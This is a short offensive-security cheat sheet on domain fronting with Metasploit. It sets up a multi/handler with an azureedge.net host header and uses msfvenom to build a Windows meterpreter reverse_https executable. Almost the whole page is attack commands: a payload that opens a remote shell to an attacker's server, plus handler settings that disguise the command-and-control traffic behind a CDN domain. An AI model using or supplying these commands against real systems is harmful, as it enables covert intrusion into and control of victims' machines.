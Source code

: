 # Domain Fronting

## Domain Fronting

### Add a letsencrypt cert 

```text
cat privkey2.pem fullchain2.pem > msf.pem 
```

### Multi-handler config

```text
msf5 exploit(multi/handler) > set LHOST good.domain.com
msf5 exploit(multi/handler) > set OverrideLHOST good.domain.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
msf5 exploit(multi/handler) > set HttpHostHeader baddomain.azureedge.net
```

{% hint style="info" %}
OverrideLHOST and OverrideRequestHost are only require in case of Staged Payload.

These options avoid host overwrite for the second staged payload.
{% endhint %}

### Payload

```csharp
msfvenom -p windows/meterpreter/reverse_https LHOST=good.domain.com \
LPORT=443 HttpHostHeader=baddomain.azureedge.net \
-f exe -o ~/path/to/payload.exe
```

